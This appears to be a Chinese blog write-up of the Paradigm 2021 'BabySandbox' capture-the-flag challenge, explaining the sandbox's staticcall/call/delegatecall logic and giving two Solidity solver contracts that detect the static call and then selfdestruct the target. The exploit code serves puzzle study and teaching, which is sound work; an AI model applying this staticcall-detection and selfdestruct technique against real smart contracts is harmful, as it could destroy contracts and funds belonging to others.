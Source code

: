 ```yaml
---
layout: post
title:  "Paradigm 2021 BabySandbox题解"
date:   2021-07-19 11:07:32 +0800
categories: paradigm
---
```


### 题目逻辑
1. ```eq(caller(), address())```在自己重入自己的时候会执行
2. 首先拿calldata，staticcall自己
3. 其次拿calldata，call自己
4. 目的是destruct合约

### 解题
1. 逻辑里2、3步都会delegatecall，相当于把代码复制到自己这里执行
2. 找准区别，第二步不干坏事，第三步再操作
3. 一开始想用memory存储，因为两次调用都是delegatecall，有一个坑点是memory不能操作特别大，比如mload(0x233333)直接就error了，改成0x2333能跑了，但是执行失败，第一次对memory进行的状态修改没有保留到第二次
4. solidity 6.0引入了```try catch```机制
```solidity
contract Solver {
    Solver private immutable self = this;
    
    function check() external { selfdestruct(tx.origin); }
    
    fallback() external payable {
        try self.check() {
            selfdestruct(tx.origin);
        }catch {
            
        }
    }
}
```
此处注意，```Solver private immutable self = this;```会将self作为常量，不能使用this，因为delegatecall的this是babysandbox，同样的，也不能使用store[xxx]，因为指向的内容都是babysandbox的内容，*可选的*，可以使用其他固定的外部Dummy，这样在编译之前就能保存常量到字节码中，*可选的2*，可以将check函数逻辑改为```assembly { sstore(0, 0x555) }```等修改状态从而不满足```staticcall```的语句，但要注意这类调用需要给够gas，估算的结果未必能过

```immutable```修饰的变量是在部署的时候确定变量的值, 它在构造函数中赋值一次之后,就不在改变, 这是一个运行时赋值, 就可以解除之前```constant```不支持使用运行时状态赋值的限制.

```immutable```不可变量同样不会占用状态变量存储空间, 在部署时,变量的值会被追加的运行时字节码中, 因此它比使用状态变量便宜的多, 同样带来了更多的安全性(确保了这个值无法在修改).


5. 解法2，由于```STATICCALL```的子CALL也无法进行状态修改，所以可以捕获

```solidity
pragma solidity 0.7.0;

contract Receiver {
  fallback() external {
    assembly {
      // hardcode the Destroyer's address here before deploying Receiver
      switch call(gas(), 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512(DUMMY), 0x00, 0x00, 0x00, 0x00, 0x00)
        case 0 {
          return(0x00, 0x00)
        }
        case 1 {
          selfdestruct(0)
        }
    }
  }
}

contract Dummy {
  fallback() external {
    selfdestruct(address(0));
  }
}
```